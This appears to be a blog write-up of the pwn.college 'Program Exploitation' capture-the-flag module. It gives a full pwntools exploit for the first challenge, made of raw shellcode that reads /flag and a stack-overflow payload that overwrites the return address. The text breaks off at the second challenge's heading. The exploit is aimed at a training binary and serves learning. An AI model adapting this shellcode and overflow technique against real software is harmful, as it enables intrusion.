 ```yaml
---
layout: post
title:  "Pwn College - Program Exploitation"
date:   2024-04-26 19:59:52 +0300
categories: jekyll update
---
```


**Contents**
* TOC
{:toc}
## Overview

This module is pretty cool, and contains multiple usermode stack exploitation scenarios. 

## Challenge 1

Very simple jump to shellcode. 

```python
from pwn import *
import os, sys
import struct

BINARY = '/challenge/toddlerone_level1.0'
elf = ELF(BINARY)
addr_main = elf.symbols['main']

p = process(BINARY)
# p = gdb.debug(BINARY)

shellcode = b"\x48\xBB\x2F\x66\x6C\x61\x67\x00\x00\x00\x53\x48\xC7\xC0\x02\x00\x00\x00\x48\x89\xE7\x48\xC7\xC6\x00\x00\x00\x00\x0F\x05\x48\xC7\xC7\x01\x00\x00\x00\x48\x89\xC6\x48\xC7\xC2\x00\x00\x00\x00\x49\xC7\xC2\xE8\x03\x00\x00\x48\xC7\xC0\x28\x00\x00\x00\x0F\x05\x48\xC7\xC0\x3C\x00\x00\x00\x0F\x05"
buf = b'A' * 120 + struct.pack('<Q', 0x1cd2b000)

p.recvuntil(b'Our stack pointer')
p.sendline(shellcode)

p.recvuntil(b'Payload size:')
p.sendline(str(len(buf)))

p.recvuntil(b'Send your payload')
p.send(buf)

p.interactive()
```

## Challenge 2
